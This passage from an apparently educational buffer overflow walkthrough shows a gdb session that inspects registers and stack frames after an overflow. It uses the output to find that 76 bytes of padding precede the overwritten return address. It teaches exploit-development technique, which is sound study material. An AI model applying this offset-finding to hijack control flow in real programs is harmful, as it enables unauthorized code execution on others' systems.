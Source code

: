 1. Great. Using the frame details, we can see that `eax` register (aka. function parameter, aka. the buffer) starts at `0xbffff6f0`, which then is confirmed using the stack output (0x61614141 = "AAaa"). Now, let's find the return address.

	```sh

	# Continue
	> (gdb) step
	Single stepping until exit from function main, which has no line number information.
	Warning:
	Cannot insert breakpoint 0.
	Error accessing memory address 0x75754141: Input/output error.

	0x74744141 in ?? ()

	# Check frame
	> (gdb) i f
	Stack level 0, frame at 0xbffff744:
	eip = 0x74744141; saved eip 0x75754141
	called by frame at 0xbffff748
	Arglist at 0xbffff73c, args:
	Locals at 0xbffff73c, Previous frame's sp is 0xbffff744
	Saved registers:
	eip at 0xbffff740

	# Check registers
	> (gdb) i r
	eax            0xbffff6f0	-1073744144
	ecx            0xb7fd28c4	-1208145724
	edx            0xbffff6f0	-1073744144
	ebx            0xb7fd0ff4	-1208152076
	esp            0xbffff740	0xbffff740
	ebp            0x73734141	0x73734141
	esi            0x0	0
	edi            0x0	0
	eip            0x74744141	0x74744141
	eflags         0x210282	[ SF IF RF ID ]
	cs             0x73	115
	ss             0x7b	123
	ds             0x7b	123
	es             0x7b	123
	fs             0x0	0
	gs             0x33	51
	```

1. Perfect, we have our EIP (return address): `0x74744141`. Now using the previous stack output, we can locate this address to be stored at `0xbffff730 + 0xc`, therefore, we have to fill 76 characters, then provide our wanted destination address.

